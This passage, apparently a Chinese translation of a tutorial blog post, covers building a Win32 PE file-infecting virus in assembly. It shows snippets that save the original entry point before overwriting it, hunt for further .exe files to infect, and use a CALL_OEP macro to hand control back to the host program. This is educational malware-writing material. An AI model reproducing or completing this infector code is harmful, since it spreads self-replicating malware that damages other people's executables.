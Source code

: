 接下来，我更新了 [`@@analyzepe`代码](https://github.com/cpu/vexation/blob/ef1c6bc24bcd4951db7bc784c4c672f6cd788981/epjector/epjector.asm#L322-L327)，以在被覆盖之前将被考虑感染的 PE 文件的`AddressOfEntryPoint`值复制到`originalEntryPoint`变量中(当然，考虑到`ebp`中的增量偏移)。

```
; At this point we've decided we have found a valid i386 PE and we can
; analyze it for infection.
@@analyzepe:
  ; Copy the original entrypoint address somewhere safe
  mov ecx, (IMAGE_NT_HEADERS [eax]).OptionalHeader.AddressOfEntryPoint
  mov [ebp + originalEntryPoint], ecx 
```

为了填充`savedEntryPoint`，我在计算了增量偏移量之后，立即在病毒代码的[开头添加了一些新的逻辑:](https://github.com/cpu/vexation/blob/ef1c6bc24bcd4951db7bc784c4c672f6cd788981/epjector/epjector.asm#L47-L53) 

```
; If this is not generation 0 then the originalEntryPoint variable will have
; been set when the currently executing PE was infected. We need to stash that
; somewhere we can JMP to later. We'll be writing over originalEntryPoint when
; we find a target to infect and propagate another generation.
@@saveoep:
    mov eax, [ebp + originalEntryPoint]
    mov [ebp + savedEntryPoint], eax 
```

最后一项任务是重构标记为 [`findfirst`](https://github.com/cpu/vexation/blob/ef1c6bc24bcd4951db7bc784c4c672f6cd788981/epjector/epjector.asm#L192-L209) 和 [`findnext`](https://github.com/cpu/vexation/blob/ef1c6bc24bcd4951db7bc784c4c672f6cd788981/epjector/epjector.asm#L224-L240) 的代码，找到`jmp`的正确绝对地址，以便在没有更多`.exe`要感染时使用`savedEntryPoint` RVA。

以前，如果`FindFirstFileA`返回`INVALID_HANDLE_VALUE` ( `-1`)或者如果`FindNextFileA`返回 0，那么病毒代码将`jmp`到`error`标签以退出进程。我重构了这个逻辑的`epjector`版本，将`jmp`替换为调用`CALL_OEP`的`@@nofirst`或`@@nonext`标签。例如:

```
@@nofirst:
  CALL_OEP 
```

第 0 代人的情况与随后几代人略有不同。第 0 代没有在感染后返回执行的“原始”功能。对于所有其他代,`savedEntryPoint`变量保存 RVA，如果程序没有被感染，操作系统加载程序会使用它。

我选择实现查找保存的入口点 RVA 的绝对地址，并跳转到一个名为`CALL_OEP`、`macros.inc` 中定义的[的宏。](https://github.com/cpu/vexation/blob/ef1c6bc24bcd4951db7bc784c4c672f6cd788981/epjector/macros.inc#L82-L106)

宏检查存储在`ebp`中的增量偏移量，以决定当前执行的病毒代码是否是第 0 代。如果是第 0 代，那么宏评估为与旧的`apisafejector`行为相同，标签为`error`的`jmp`。对于第 1 代以上，宏评估代码，该代码将使用`savedEntryPoint`来`jmp`到正确的绝对地址。

```
; CALL_OEP is a macro for calling the savedEntryPoint of the
; infected EXE. If called in generation 0 it is equivalent to
; a jmp to the error label because there is no saved entry
; point. When called in generation 1 the GetModuleHandleA API
; function from kernel32.dll is used to find the absolute
; address with the savedEntryPoint RVA.
CALL_OEP MACRO
    LOCAL @@notgenzero
    LOCAL @@genzero
    ; Use EBP to decide if this is gen > 0
    cmp ebp, 0h
    je @@genzero
@@notgenzero:
    ; When it isn't gen0 we need to jmp to OEP
    ; First calculate the base address of the infected PE
    CALL_RUNTIME_API GetModuleHandleA, <0h>
    ; Then add the saved OEP
    add eax, [ebp + savedEntryPoint]
    ; Bye bye! Give control to the non-viral code.
    jmp eax
```